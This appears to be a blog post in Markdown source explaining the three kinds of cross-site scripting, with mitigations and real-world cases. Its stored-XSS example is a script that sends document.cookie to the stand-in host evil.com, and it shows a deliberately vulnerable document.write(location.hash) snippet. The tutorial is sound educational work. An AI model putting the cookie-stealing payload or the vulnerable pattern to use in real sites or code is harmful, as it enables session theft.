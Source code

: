 ```yaml
---
title: "Cross-Site Scripting (XSS): OWASP Top 10 & Real-World Exploitation"
date: 2025-07-24
layout: post
tag: [OWASP, Web Security, XSS]
---
```


<div style="display: flex; gap: 30px; align-items: flex-start; margin-bottom: 30px;">

&nbsp; <!-- Table of Contents -->
&nbsp; <div style="flex: 1; background-color: #f9f9f9; padding: 20px; border-left: 5px solid #007acc; border-radius: 6px;">

&nbsp;   <strong>Table of Contents</strong>

&nbsp;   <ul>
&nbsp;     <li><a href="#what-is-cross-site-scripting-xss">What is Cross-Site Scripting (XSS)?</a></li>
&nbsp;     <li><a href="#types-of-xss">Types of XSS</a>
&nbsp;       <ul>
&nbsp;         <li><a href="#1-stored-xss">1. Stored XSS</a></li>
&nbsp;         <li><a href="#2-reflected-xss">2. Reflected XSS</a></li>
&nbsp;         <li><a href="#3-dom-based-xss">3. DOM-Based XSS</a></li>
&nbsp;       </ul>
&nbsp;     </li>
&nbsp;     <li><a href="#how-xss-attacks-work">How XSS Attacks Work</a></li>
&nbsp;     <li><a href="#real-world-examples">Real-World Examples</a></li>
&nbsp;     <li><a href="#general-mitigation-strategies">General Mitigation Strategies</a></li>
&nbsp;     <li><a href="#conclusion">Conclusion</a></li>
&nbsp;     <li><a href="#references">References</a></li>
&nbsp;   </ul>

&nbsp; </div>
</div>

## What is Cross-Site Scripting (XSS)?

Cross-Site Scripting (XSS) is a client-side code injection vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. When executed in the victim’s browser, these scripts can steal cookies, session tokens, sensitive data, or perform actions on behalf of the user. XSS is included in the [OWASP Top 10](https://owasp.org/Top10) due to its high frequency and impact.

---

## Types of XSS

### 1. Stored XSS

**Definition:**  
Stored XSS occurs when malicious scripts are permanently saved on the target server (e.g., in a database, comment section, forum post). Any user who accesses the affected page will automatically execute the malicious code.

**How it works:**
1. Attacker submits malicious JavaScript into an input field that gets stored in the application’s database.
2. When another user loads the page, the stored script is included in the page’s HTML and executed by the browser.
3. The script can perform actions like stealing cookies, keylogging, or redirecting the user to malicious sites.

**Example payload:**
```html
<script>fetch('https://evil.com?cookie=' + document.cookie)</script>
```

**Mitigation:**  
Sanitize and validate all user inputs before storing them; use context-aware output encoding; avoid directly inserting untrusted data into HTML; apply a strict Content Security Policy (CSP).

---

### 2. Reflected XSS

**Definition:**  
Reflected XSS occurs when malicious scripts are embedded in a URL or request and reflected back to the browser in the server’s response without proper sanitization.

**How it works:**
1. Attacker crafts a malicious link containing JavaScript code in a parameter.
2. Victim clicks the link and sends a request to the vulnerable application.
3. The application reflects the malicious input in its response, which the browser executes.

**Example payload in URL:**
```
https://example.com/search?q=<script>alert('XSS')</script>
```

**Mitigation:**  
Sanitize and encode all user inputs before reflecting them in responses; use frameworks that automatically escape output; avoid dynamically generating HTML from untrusted data; implement CSP to block inline scripts.

---

### 3. DOM-Based XSS

**Definition:**  
DOM-Based XSS happens when the client-side JavaScript modifies the DOM based on untrusted data without proper sanitization, leading to script execution without any server-side involvement.

**How it works:**
1. Attacker crafts a malicious payload that manipulates the page’s DOM via URL fragments, query parameters, or other sources.
2. The vulnerable JavaScript code inserts this data directly into the page without escaping.
3. The browser executes the malicious code.

**Example vulnerable code:**
```javascript
document.write(location.hash);
```

**Example attack URL:**
```
https://example.com/page#<script>alert('XSS')</script>
```

**Mitigation:**  
Avoid dangerous DOM manipulation methods like `document.write()` and `innerHTML` with untrusted data; use safe DOM APIs like `textContent` or `setAttribute()`; sanitize inputs with trusted libraries (e.g., DOMPurify); implement CSP to prevent execution of injected scripts.

---

## How XSS Attacks Work

1. **Injection:** The attacker injects malicious JavaScript into a vulnerable page.
2. **Execution:** The victim’s browser renders the page and runs the script.
3. **Impact:** The attacker can steal session cookies, perform actions as the user, or spread malware.

---

## Real-World Examples

- **MySpace Samy Worm (2005):** A self-replicating XSS worm that spread to over 1 million profiles in 24 hours.
- **British Airways Breach (2018):** Malicious JavaScript was injected to steal payment details from thousands of customers.

---

## General Mitigation Strategies

- Validate and sanitize all user inputs on both client and server.
- Use context-specific output encoding.
- Enforce a strong Content Security Policy (CSP).
- Avoid unsafe JavaScript functions and DOM manipulation methods.
- Use security features provided by frameworks.
- Regularly test for XSS vulnerabilities using automated scanners and manual penetration testing.

---

## Conclusion

XSS is a critical vulnerability that undermines user trust and can cause severe data breaches. By implementing proper input handling, output encoding, and browser-based security controls, developers can significantly reduce the risk of exploitation.

---

## References

- [OWASP: Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger: XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [Google CSP Evaluator](https://csp-evaluator.withgoogle.com/)
